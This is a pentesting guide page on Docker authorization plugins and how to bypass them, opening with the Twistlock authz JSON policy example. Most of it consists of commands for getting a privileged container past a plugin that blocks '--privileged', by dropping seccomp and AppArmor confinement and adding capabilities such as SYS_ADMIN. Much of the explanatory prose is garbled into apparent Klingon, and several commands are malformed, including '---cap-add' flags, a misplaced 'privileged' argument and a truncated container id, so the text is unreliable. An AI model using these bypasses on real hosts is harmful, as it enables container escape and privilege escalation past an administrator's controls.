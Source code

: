 # Plugin Examples

## Twistlock AuthZ Broker

The plugin [**authz**](https://github.com/twistlock/authz) allows you to create a simple **JSON** file that the **plugin** will be **reading** to authorize the requests. Therefore, it gives you the opportunity to control very easily which API endpoints can reach each user.

This is an example that will allow Alice and Bob can create new containers: `{"name":"policy_3","users":["alice","bob"],"actions":["container_create"]}`

In the page [route\_parser.go](https://github.com/twistlock/authz/blob/master/core/route\_parser.go) you can find the relation between the requested URL and the action. In the page [types.go](https://github.com/twistlock/authz/blob/master/core/types.go) you can find the relation between the action name and the action

## Simple Plugin Tutorial

You can find an **easy to understand plugin** with detailed information about installation and debugging here: [**https://github.com/carlospolop-forks/authobot**](https://github.com/carlospolop-forks/authobot)

Read the `README` and the `plugin.go` code to understand how is it working.

# Docker Auth Plugin Bypass

## Enumerate access

The main things to check are the **which endpoints are allowed** and **which values of HostConfig are allowed**.

To perform this enumeration you can **use the tool** [**https://github.com/carlospolop/docker\_auth\_profiler**](https://github.com/carlospolop/docker\_auth\_profiler)**.**

## disallowed `run --privileged`

### Minimum Privileges
```bash
docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash
```
### Qap container 'ej 'ej getting a privileged session

vaj case Hoch sysadmin **disallowed users to mount volumes 'ej run containers with the `--privileged` flag** or give any extra capability to the container:
```bash
docker run -d --privileged modified-ubuntu
docker: Error response from daemon: authorization denied by plugin customauth: [DOCKER FIREWALL] Specified Privileged option value is Disallowed.
See 'docker run --help'.
```
DaH jImej **containerDaq 'ej vItlhutlhlaHbe'**.
```bash
docker run -d --security-opt seccomp=unconfined --security-opt apparmor=unconfined ubuntu
#bb72293810b0f4ea65ee8fd200db418a48593c1a8a31407be6fee0f9f3e4f1de

# Now you can run a shell with --privileged
docker exec -it privileged bb72293810b0f4ea65ee8fd200db418a48593c1a8a31407be6fee0f9f3e4f1de bash
# With --cap-add=ALL
docker exec -it ---cap-add=ALL bb72293810b0f4ea65ee8fd200db418a48593c1a8a31407be6fee0f9f3e4 bash
# With --cap-add=SYS_ADMIN
docker exec -it ---cap-add=SYS_ADMIN bb72293810b0f4ea65ee8fd200db418a48593c1a8a31407be6fee0f9f3e4 bash
```